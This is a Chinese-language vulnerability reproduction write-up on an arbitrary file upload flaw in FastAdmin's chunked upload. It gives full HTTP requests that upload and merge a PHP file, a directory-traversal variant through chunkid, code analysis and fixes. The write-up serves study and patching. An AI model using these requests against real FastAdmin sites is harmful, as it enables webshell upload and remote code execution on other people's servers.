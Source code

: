 # FastAdmin 前台分片传输任意文件上传漏洞

## 简介
FastAdmin 是一款基于 ThinkPHP 5 + Bootstrap 的极速后台开发框架。致力于服务开发者,快速搭建自己属于自己的后台。

## 漏洞概述
2021年3月28日，360漏洞云漏洞研究员发现，FastAdmin框架存在有条件RCE漏洞，由于FastAdmin的前台文件上传功能中提供了分片传输功能, 但在合并分片文件时因对文件路径的拼接处理不当导致可上传任意文件。

## 影响版本
FastAdmin < V1.2.0.20210401_beta
且开启分片传输功能（默认关闭）

## 环境搭建
在官网上下载fastadmin，利用phpstudy搭建环境

```
https://package.fastadmin.net/full/1.2.0.20210125_full.zip
```

先开启分片上传功能，文件位置如下图

![](resource/FastAdmin前台分片传输任意文件上传漏洞/media/1.webp)

访问/public/install.php进行安装，填写数据无脑下一步即可

![](resource/FastAdmin前台分片传输任意文件上传漏洞/media/2.webp)

## 漏洞复现
漏洞需要一个低权限的账号,所以我们需要在前台注册一个普通用户

![](resource/FastAdmin前台分片传输任意文件上传漏洞/media/3.webp)

登陆后在个人资料头像处抓包并上传dog.jpg

![](resource/FastAdmin前台分片传输任意文件上传漏洞/media/4.webp)

更改上传数据包（需要注意图中几处红框的内容）

![](resource/FastAdmin前台分片传输任意文件上传漏洞/media/5.webp)

```
POST /index/ajax/upload HTTP/1.1
Host: test.test
Content-Length: 418
Accept: application/json
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryurpjX18wIurjSyEp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=rn1k8an9su59qb7ghosafer4vg; think_var=zh-cn; uid=2; token=aad3aa1e-1c65-4ee4-989a-bb3a82a4dd4a
Connection: close

------WebKitFormBoundaryurpjX18wIurjSyEp
Content-Disposition: form-data; name="file"; filename="dog.jpg"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
------WebKitFormBoundaryurpjX18wIurjSyEp
Content-Disposition: form-data; name="chunkid";

test.php
------WebKitFormBoundaryurpjX18wIurjSyEp
Content-Disposition: form-data; name="chunkindex";

0
------WebKitFormBoundaryurpjX18wIurjSyEp--

```

上传成功之后，会在网站路径

C:\phpstudy_pro\WWW\fastadmin\runtime\chunks下生成一个test.php-0.part文件

![](resource/FastAdmin前台分片传输任意文件上传漏洞/media/6.webp)

发送数据包（需要注意图中几处红框的内容）

返回包显示200则代表合并成功

![](resource/FastAdmin前台分片传输任意文件上传漏洞/media/7.webp)

```
POST /index/ajax/upload HTTP/1.1
Host: tets.test
Content-Length: 42
Accept: application/json
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=mm4ejed8h7hubqq1stmogrut20; think_var=zh-cn; uid=2; token=f5a57bef-2ad2-496a-a4bc-66974bcc4a08
Connection: close

chunkid=test.php&chunkcount=1&action=merge

```

发包后访问

/fastadmin/runtime/chunks/test.php

![](resource/FastAdmin前台分片传输任意文件上传漏洞/media/8.webp)

![](resource/FastAdmin前台分片传输任意文件上传漏洞/media/9.webp)

（漏洞利用存在很大的局限性，首先是需要开启支持分片传输，我在调试的过程中发现，在指定 host 解析，设定网站的根目录为 /fastadmin/public 之后就无法访问  /fastadmin/runtime/chunks 下的文件，虽说如此，但是可以通过设定chunkid的值为 ../xxx.php 就可以实现跨目录的上传）



## 漏洞分析


根据漏洞描述需要开启支持分片上传，所以我们修改

application/extra/upload.php中chunking为 true

![](resource/FastAdmin前台分片传输任意文件上传漏洞/media/10.webp)

同时最新版本已经修复存在的漏洞，修复位置为

application/common/library/Upload.php

复现漏洞时，应注释这个部分

![](resource/FastAdmin前台分片传输任意文件上传漏洞/media/11.webp)

根据上传时的路由信息

/index.php/index/ajax/upload

定位至代码位置

application/index/controller/Ajax.php

![](resource/FastAdmin前台分片传输任意文件上传漏洞/media/12.webp)

漏洞的触发共分为两个过程，上传分片与合并分片

首先关注上传分片的过程 传入参数 chunckid 才会到上传分片的位置

\app\api\controller\Common::upload

![](resource/FastAdmin前台分片传输任意文件上传漏洞/media/13.webp)

\app\common\library\Upload::chunk

![](resource/FastAdmin前台分片传输任意文件上传漏洞/media/14.webp)

在 chunk 方法中，首先对 Content-Type 进行了校验，必须为 application/octet-stream 将传入的参数 chunckid  与  chunckindex 通过 - 连接，最后拼接 .part 最后保存到 /runtime/chunks/

当我们传递的 $chunkid 为 test.php , $chunckindex 为 0 时(参数选择为0，还有别的原因，下表)，最后拼接出的分片文件名为test.php-0.part

然后是合并分片文件的操作，需要传入参数 action=merge 才会到合并分片文件的函数

![](resource/FastAdmin前台分片传输任意文件上传漏洞/media/15.webp)

\app\common\library\Upload::merge

![](resource/FastAdmin前台分片传输任意文件上传漏洞/media/16.webp)

在 merge 方法中会将 $chunkid 的值指定为最后保存的文件名，然后回根据传入的参数$chunkcount遍历查找是否分片文件上传完成，我们仅上传了一个分片文件，所以第一个分片文件应该设定为0，此处 chunkcount 的值应为1

之后就将分片传输的文件写入指定的文件中，最后返回文件信息，即使最后报错提示是不允许的上传类型，但是文件已经保存到 /runtime/chunks/  路径下

在上传对文件名进行校验的情况下，利用分片传输的中最后重命名文件名的特点，绕过对文件名的校验，实现了任意文件上传

## 修复方式
1、关闭分片传输

修改application/extra/upload.php中 chunking 为 false

2、升级FastAdmin版本，其中对 chunkid 做正则判断

## 参考链接
* https://xz.aliyun.com/t/9395
* https://mp.weixin.qq.com/s/otrH75ZjCHBQbRB7g5DdWg
* https://mp.weixin.qq.com/s/gAerDNnDSl6864oyvDy4nA